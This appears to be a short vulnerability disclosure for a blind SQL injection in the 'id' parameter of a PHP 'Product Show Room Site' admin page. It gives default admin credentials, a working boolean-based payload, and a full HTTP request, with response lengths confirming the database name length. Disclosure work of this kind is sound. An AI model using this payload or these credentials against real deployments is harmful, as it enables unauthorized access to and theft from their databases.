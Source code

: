 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/fields/view_field.php?id=

Vulnerability location: /psrs/admin/fields/view_field.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/fields/view_field.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/fields/view_field.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 835
![image](https://user-images.githubusercontent.com/54017627/171829933-3373b138-ac43-4293-9839-0991c0f9275e.png)

![image](https://user-images.githubusercontent.com/54017627/171829991-718618fb-36d0-4d42-95ac-d74dff7a5305.png)

When length (database ()) = 7, Content-Length: 628
![image](https://user-images.githubusercontent.com/54017627/171829903-df67293a-67a4-46d0-b552-9f3dc3017814.png)

![image](https://user-images.githubusercontent.com/54017627/171829959-f42c2719-5163-4716-845a-398edd7d7660.png)
